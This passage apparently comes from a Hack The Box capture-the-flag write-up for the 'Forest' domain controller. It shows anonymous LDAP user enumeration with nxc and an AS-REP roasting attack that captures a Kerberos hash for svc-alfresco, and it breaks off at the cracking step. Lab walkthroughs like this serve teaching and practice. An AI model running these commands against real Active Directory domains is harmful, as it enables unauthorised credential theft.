
Standard domain controller port profile - ports 88 (Kerberos), 389/3268 (LDAP), 445 (SMB), and 5985 (WinRM) confirm DC role with potential for directory enumeration and remote access.

### DNS Configuration

```bash
nxc smb '10.10.10.161' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

tail -n 1 /etc/hosts
10.10.10.161     FOREST.htb.local FOREST
```

### User Discovery via LDAP

Anonymous LDAP enumeration identified seven active domain users:

```bash
nxc ldap 'FOREST' -u '' -p '' -d 'htb.local' --active-users | awk '{print $5}' | grep -v '^[H,\[,-]' > files/users.txt && cat files/users.txt 

Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

---

## Phase 2: Exploitation - AS-REP Roasting Attack

### Understanding AS-REP Roasting
When "Do not require Kerberos pre-authentication" is enabled on an account, authentication tickets can be requested without credentials, then cracked offline. This commonly occurs with legacy service accounts for application compatibility.

### The Attack

Testing the user list for AS-REP roasting revealed account `svc-alfresco` with the "Do Not Require Kerberos Pre-Authentication" attribute enabled:

```bash
nxc ldap 'FOREST' -u files/users.txt  -p '' -d 'htb.local' --asreproast files/roast.txt     

...
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:d92213ff872a80624a412d802a52b446$...
```

### Hash Cracking
